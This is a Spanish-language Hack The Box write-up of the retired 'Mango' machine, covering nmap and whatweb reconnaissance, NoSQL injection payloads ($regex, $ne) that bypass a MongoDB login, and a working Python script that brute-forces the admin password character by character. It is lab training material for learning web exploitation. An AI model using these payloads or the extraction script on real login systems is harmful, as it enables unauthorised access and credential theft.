 ```yaml
---
layout: post
title:  "Maquina Retirada Mango de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada MANGO
tags: HTB, Bypass, NoSQLI, Mongo-db, Web Hacking, Maquinas Retiradas, Writeup
---
```


# Mango ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.162       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos un dominio 

Usamos la herramienta whatweb
```bash
# whatweb 10.10.10.162                                                                                                                                                                                        1 ⚙
http://10.10.10.162 [403 Forbidden] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], Title[403 Forbidden]
```
Nos arroja un Forbidden y si probamos con el dominio encontrado?
```bash
# whatweb staging-order.mango.htb                                                                                                                                                                             
http://staging-order.mango.htb/ [200 OK] Apache[2.4.29], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.162], PasswordField[password], Script, Title[Mango | Sweet & Juicy]
```
Nos arroja mas informacion.

Vemos que Tenemos un Login, probamos las tipicas injecciones de SQLI y vemos que no nos respode a ninguna.. 
Buscamos informacion sobre las bases de datos `Mongo-db`
Vemos que justo para las bases de datos `Mongo-db` hay unas injecciones llamadas `NoSqli`.

Injeccion No Sqli
```bash
username[$regex]=^a.*$&password[$ne]=lol&login=login    --- codigo 302
```
Averiguamos la longitud de la contraseña para el usuario `admin`: `username=admin&password[$regex]=^.{12}$&login=login   ----302`

Averiguarmos la longitud de la contraseña para el usuario `mango`: `pusername=mango&password[$regex]=^.{16}$&login=login ------- 302`

Conseguimos sacar dos usuarios validos: `admin , mango`

Nos montamos un `exploit` en python3 para sacar las contraseñas de los dos usuarios enumerados de la misma forma.
```python3
#!/usr/bin/python3

import requests
import re
import signal
import sys
import pdb
import string
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://staging-order.mango.htb"
s = string.ascii_letters + string.digits + string.punctuation 

def makeRequest():

    password = ""

    for i in range(0, 20):

        for character in s:

            p1.status("Probando el caracter %s" % character)

            post_data = {
                'username': 'admin',
                'password[$regex]': '^%s.*$' % (re.escape(password + character)),
                'login': 'login'
            }

            r = requests.post(main_url, data=post_data, allow_redirects=False)

            if r.status_code == 302:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Password")
    time.sleep(2)

    makeRequest()
```
